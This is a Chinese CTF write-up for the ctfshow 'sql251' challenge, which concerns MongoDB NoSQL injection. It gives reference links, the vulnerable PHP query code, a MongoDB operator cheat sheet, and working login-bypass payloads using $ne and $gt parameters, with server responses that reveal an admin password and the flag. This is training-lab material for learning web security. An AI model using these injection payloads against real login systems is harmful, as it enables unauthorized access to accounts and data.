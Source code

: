# ctfshow-sql251



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623

郁离歌大佬 https://blog.csdn.net/like98k/article/details/79436463

sql常见方法及udf提权   https://blog.csdn.net/qq_43645782/article/details/105468416

bit  https://www.xl-bit.cn/index.php/archives/93/





 查询语句 

```
  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();
```



 返回逻辑 

```
  //无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
      

```



```sql
补充一下nosql注入笔记
http://rui0.cn/archives/609
https://www.anquanke.com/post/id/97211





$gt : >
$lt : <
$gte: >=
$lte: <=
$ne : !=、<>
$in : in
$nin: not in
$all: all 
$or:or
$not: 反匹配(1.3.3及以上版本)
模糊查询用正则式：db.customer.find({'name': {'$regex':'.*s.*'} })
/**
* : 范围查询 { "age" : { "$gte" : 2 , "$lte" : 21}}
* : $ne { "age" : { "$ne" : 23}}
* : $lt { "age" : { "$lt" : 23}}
*/


//查询age = 22的记录
db.userInfo.find({"age": 22});
//相当于：select * from userInfo where age = 22;
//查询age > 22的记录
db.userInfo.find({age: {$gt: 22}});
//相当于：select * from userInfo where age > 22;



按照上一题的姿势，但是出了admin账号的用户名密码
username[$ne]=1&password[$ne]=1
username[$gte]=admin&password[$gte]=1

{"code":0,"msg":"\u767b\u9646\u6210\u529f ","count":1,"data":[{"_id":{"$oid":"6182406b9fd30afea7b55744"},"username":"admin","password":"ctfshow666nnneeaaabbbcc"}]}

再改成username不等于admin即可
username[$ne]=admin&password[$ne]=1
username[$gt]=admin&password[$gt]=1

{"code":0,"msg":"\u767b\u9646\u6210\u529f ","count":1,"data":[{"_id":{"$oid":"6182406becb700572ba7ac4f"},"username":"flag","password":"ctfshow{59cdf9f6-db8c-4719-82ad-c029c8808a82}"}]}




```



























